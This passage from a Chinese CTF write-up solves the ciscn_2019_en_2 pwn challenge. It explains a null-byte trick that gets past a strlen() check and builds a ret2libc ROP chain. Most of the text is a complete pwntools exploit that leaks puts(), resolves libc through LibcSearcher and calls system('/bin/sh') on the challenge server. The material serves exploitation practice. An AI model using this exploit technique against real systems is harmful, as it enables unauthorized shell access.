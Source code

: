 不过我们可以发现该函数是使用的`strlen()`函数来判断输入的长度，遇到`'\x00'`时会终止，而`gets()`函数遇到`'\x00'`并不会截断，因此我们可以将payload开头的padding的第一个字符置为`'\x00'`，这样我们所输入的payload就不会被程序改变

接下来考虑构造rop链getshell，基本上已经是固定套路了，**首先用`puts()`函数泄漏出`puts()`的真实地址，同时由于题目没有给出libc文件，故接下来我们考虑用`LibcSearcher`获取libc，然后libc的基址、`/bin/sh`和`system()`的地址就都出来了，配合上csu中的gadget即可getshell**

构造exp如下：

```
from pwn import *
from LibcSearcher import *

p = remote('node3.buuoj.cn',25348)
e = ELF('./ciscn_2019_en_2')

puts_plt = e.plt['puts']
puts_got = e.got['puts']
main_addr = 0x400b28
pop_rdi_ret = 0x400c83
retn = 0x400c84
offset = 0x50

payload1 = b'\x00' + b'A'*(offset-1) + p64(0xdeadbeef) + p64(pop_rdi_ret) + p64(puts_got) + p64(puts_plt) + p64(main_addr)

p.recv()
p.sendline('1')
p.recv()
p.sendline(payload1)
p.recvuntil('text\n\n')
puts_addr = u64(p.recv(6).ljust(8,b'\x00'))
libc = LibcSearcher('puts',puts_addr)
libc_base = puts_addr - libc.dump('puts')
sys_addr = libc_base + libc.dump('system')
sh_addr = libc_base + libc.dump('str_bin_sh')

payload2 = b'\x00' + b'A'*(offset-1) + p64(0xdeadbeef) + p64(retn) +p64(pop_rdi_ret) + p64(sh_addr) + p64(sys_addr)

p.sendline('1')
p.sendline(payload2)
p.interactive() 
```
